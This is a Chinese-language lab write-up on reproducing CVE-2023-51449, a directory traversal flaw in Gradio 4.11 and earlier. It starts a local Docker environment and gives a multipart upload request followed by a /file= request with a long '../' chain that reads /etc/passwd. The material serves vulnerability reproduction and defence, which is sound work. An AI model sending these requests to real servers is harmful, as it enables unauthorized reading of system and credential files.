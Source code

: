 # Gradio `file` 接口目录穿越漏洞（CVE-2023-51449）

Gradio是一个Python库，允许用户无需编写前端代码即可为机器学习模型快速构建可视化Web界面。

在 Gradio 4.11 及更早版本中，如果未启用身份验证，知道文件路径的攻击者可以使用公共URL访问运行Gradio应用程序的服务器上的任意文件。

参考链接：

- <https://github.com/gradio-app/gradio/pull/6833>
- <https://github.com/gradio-app/gradio/security/advisories/GHSA-6qm2-wpxq-7qh2>

## 环境启动

执行如下命令启动一个由Gradio 4.10.0编写的应用：

```
docker compose up -d
```

环境启动后，默认未开启身份验证。你可以通过`http://your-ip:7860`访问该应用。

## 漏洞复现

首先，使用upload接口上传任意文件，获取一个可访问的文件路径。

```
POST /upload HTTP/1.1
Host: localhost:7860
Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311

-----------------------------250033711231076532771336998311
Content-Disposition: form-data; name="files";filename="okmijnuhbygv"
Content-Type: application/octet-stream

123456
-----------------------------250033711231076532771336998311--
```

![](1.png)

获得可访问的文件路径后，利用file接口配合目录穿越，即可读取服务器上的任意文件，例如`/etc/passwd`：

```
GET /file=/tmp/gradio/7c4a8d09ca3762af61e59520943dc26494f8941b/../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: localhost:7860
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36 Edg/100.0.1185.36
Connection: close
Accept-Encoding: gzip

```

![](2.png)
